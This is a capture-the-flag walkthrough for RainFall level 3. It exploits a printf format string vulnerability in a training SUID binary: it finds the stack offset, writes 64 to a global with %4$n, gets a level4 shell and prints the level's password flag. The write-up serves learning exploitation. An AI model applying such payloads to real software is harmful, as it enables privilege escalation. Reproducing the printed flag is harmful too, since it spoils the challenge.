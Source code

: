 # Level 3 Walkthrough

## Who am I?

```bash
level3@RainFall:~$ id
uid=2003(level3) gid=2003(level3) groups=2003(level3)
```

## Where am I?

```bash
level3@RainFall:~$ ll
total 8
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3*
```

We are in possession of a SUID binary owned by `level4`. Our objective is to exploit this binary to gain a shell as `level4` and read the corresponding `.pass` file.

---

## Program Behavior

The binary reads input from `stdin`, prints it, and exits:

```bash
level3@RainFall:~$ ./level3
hello
hello
```

We try providing a large input:

```bash
level3@RainFall:~$ python -c "print 'A' * 200" | ./level3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

There is no crash, even with 200 characters. Unlike the previous level which used the unsafe `gets()`, this binary uses `fgets()`, which safely limits input size.

---

## GDB Analysis

### Disassemble `main()`

```gdb
(gdb) disas main
```

```
0x0804851a <+0>: push %ebp
0x0804851b <+1>: mov %esp,%ebp
0x0804851d <+3>: and $0xfffffff0,%esp
0x08048520 <+6>: call 0x80484a4 <v>
0x08048525 <+11>: leave
0x08048526 <+12>: ret
```

The `main()` function simply calls `v()`.

---

### Disassemble `v()`

```gdb
(gdb) disas v
```

We identify three important things:

1. Input is read with `fgets()` (safe from classic buffer overflow), unlike the previous level which used `gets()`.
2. The input is printed using `printf(buffer)` — **format string vulnerability!**
3. A comparison checks if a global variable `m` at `0x0804988c` is equal to 64 (`0x40`). If true, it launches a shell.

This logic was confirmed by decompiling the binary using Ghidra (see `decompiled_level3/v.c`).

---

## Format String Vulnerability

`printf(buffer)` is unsafe because the format string is entirely user-controlled. This lets us:

* Print stack contents with `%x`
* Write to arbitrary memory with `%n`

---

## Exploitation Strategy

### Step 1: Find offset on the stack

We inject 10 `%x` to see where our input lands:

```bash
level3@RainFall:~$ python -c 'print "AAAA %x %x %x %x %x %x %x %x %x %x"' | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520 25207825 78252078
```

We see that `AAAA` appears as `41414141` in hexadecimal, and it's the **4th** item on the stack. Therefore, we will use `%4$n` to write to the address placed as the 4th argument.

### Step 2: Inject address of `m` on the stack

```bash
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"' | ./level3
� 200 b7fd1ac0 b7ff37d0 804988c
```

We see `804988c` appear at position 4 confirmed. Since `printf` interprets the stack contents as integers or pointers, we had to inject the address in **little endian format** so that it’s correctly interpreted as `0x0804988c` on the stack.

### Step 3: Craft final payload

To exploit the vulnerability, we needed to:

* Identify the address to overwrite: `0x0804988c`, found from disassembly or decompilation.
* Determine the desired value: `64` (i.e. `0x40`) to pass the condition in the code: `if (m == 0x40)`.
* Discover that our input address appears as the 4th item on the stack (`%4$n`) through testing with multiple `%x`.
* Confirm that the input is copied via `fgets()` and used directly in `printf()`.

To write `64` to that address using `%n`, we must ensure that exactly **64 characters** are printed before `%4$n`. We use padding of 60 characters (`"A"*60`) plus the 4 bytes from the address.

To understand `%n`, consider this example:

```c
int written = 0;
printf("Hello world!%n", &written);
```

After executing, `written == 12`, because 12 characters were printed.

### Step 4: Build and launch the payload

```bash
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"' > /tmp/exploit
```

Run it:

```bash
level3@RainFall:~$ cat /tmp/exploit | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
```

However, this doesn't give a shell. We must use `cat -` to keep stdin open:

```bash
level3@RainFall:~$ cat /tmp/exploit - | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
```

Finally, we read the flag:

```bash
$ cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

Success.

---

## Files in this repository

* `flag.txt` : file containing the retrieved flag
* `asm_analysis.md` : GDB analysis of the binary
* `decompiled_level3/` : folder containing the reconstructed C code from Ghidra


